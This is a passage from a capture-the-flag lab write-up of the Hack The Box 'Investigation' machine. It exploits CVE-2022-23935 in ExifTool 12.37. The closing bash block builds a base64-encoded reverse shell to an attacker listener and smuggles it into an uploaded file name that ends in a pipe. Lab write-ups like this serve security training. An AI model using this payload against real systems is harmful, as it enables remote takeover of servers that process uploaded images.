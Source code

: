The file is accepted and it points us to the output of an [ExifTool](https://exiftool.org) command on our image.

![Report](/assets/img/post/htb-machines-investigation/report.png)

The report indicates that the application is analyzing the uploaded image with ExifTool version **12.37**. Let's check if there are any vulnerabilities applicable to this version.

We visit [CVE Details](https://www.cvedetails.com/) and find a command injection vulnerability tracked as **CVE-2022-23935** listed [here](https://www.cvedetails.com/vulnerability-list/vendor_id-19612/product_id-51884/Exiftool-Project-Exiftool.html) that is applicable to versions before 12.38.

> lib/Image/ExifTool.pm in ExifTool before 12.38 mishandles a $file =~ /\|$/ check, leading to command injection. 

#### CVE-2022-23935

We find a detailed description of the vulnerability [here](https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429) that explains how an attacker-controlled file name will be executed as a command when it ends with a pipe character `|`. Let's try to exploit this vulnerability on the target by modifying the file name we pass in the upload form.

```bash
# bryan@attacker
lhost="10.10.14.5" # Listener host
lport="443" # Listener port
shell=$(echo -n "bash >& /dev/tcp/$lhost/$lport 0>&1" | base64 -w 0)
cp test.jpg "echo $shell|base64 -d|bash|" # Modify the image name
pwncat-cs -l $lhost $lport # Start the listener with PwnCat (`python3 -m pip install pwncat-cs`)
```
{:.nolineno}
